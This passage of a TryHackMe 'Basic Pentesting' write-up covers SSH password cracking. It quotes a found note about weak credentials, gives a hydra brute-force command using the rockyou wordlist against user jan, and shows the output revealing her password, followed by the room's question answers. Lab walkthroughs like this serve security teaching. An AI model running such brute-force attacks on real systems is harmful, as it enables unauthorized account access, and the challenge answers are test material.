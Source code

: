j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

The first document just appeared to be a chat log between 2 people but the second one seemed to imply that the password for jan's account was weak which is something that we can work with. Looking back at the results of the nmap scan again ssh is open and using a tool like hydra we can crack a ssh password so long as we have the right wordlist. Given that the password is weak it is likely to be within the rockyou.txt wordlist. 

Using the command `hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 6 10.10.210.123 ssh` I started the brute force attack on jan's password. Now I have to read the man page for hydra every time that I use it, another good thing to look at is the [kali tools](https://www.kali.org/tools/) page for [hydra](https://www.kali.org/tools/hydra/#hydra). This took a while so I began to think that maybe jan was not the right target but then her password was finally found.

HydraJan-SSH.txt
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-14 16:06:17
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://10.10.241.77:22/
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 14344333 to do in 3622:19h, 6 active
[STATUS] 52.00 tries/min, 156 tries in 00:03h, 14344243 to do in 4597:31h, 6 active
[STATUS] 43.71 tries/min, 306 tries in 00:07h, 14344093 to do in 5468:53h, 6 active
[STATUS] 43.87 tries/min, 658 tries in 00:15h, 14343741 to do in 5449:45h, 6 active
[22][ssh] host: 10.10.241.77   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-14 16:24:42
```

![Image 7](/images/tryhackme/BasicPentesting/09BasicPentesting.png)

### Question 4 - No Answer

### Question 5 - `jan`

### Question 6 - `armando`

### Question 7 - `SSH`
